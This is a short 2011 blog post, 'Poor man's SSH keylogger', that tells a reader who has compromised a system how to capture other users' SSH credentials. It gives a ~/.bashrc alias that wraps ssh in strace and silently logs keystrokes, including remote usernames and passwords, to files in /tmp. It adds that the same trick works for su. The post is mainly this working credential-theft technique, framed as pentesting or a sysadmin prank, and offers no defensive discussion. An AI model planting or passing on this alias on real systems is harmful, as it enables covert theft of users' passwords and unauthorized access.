 ```yaml
---
title: Poor man's SSH keylogger
date: '2011-02-03'
summary: "If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this..."
tags: [ ssh, keylogger ]
categories: code
---
```


If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this:

Edit the users ~/.bashrc and insert the following alias:

<pre>
ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh' 
</pre>

Now, every time a user uses the ssh command, he will be using this alias, and all his keystrokes (including the remote system's username/password), will be logged to /tmp.

<img src="https://media.tumblr.com/tumblr_lg1sdtJp921qevk7j.png" style="float:left;margin:0px 30px 0px 0px;" />

As I said, this is nothing fancy, and a quick look at the env, at the .bashrc or even at /tmp is enough to spot this. However, for a quick simple solution, it is more than enough.

Update: as one of the readers pointed out, this also works with su, using the exact same trick.
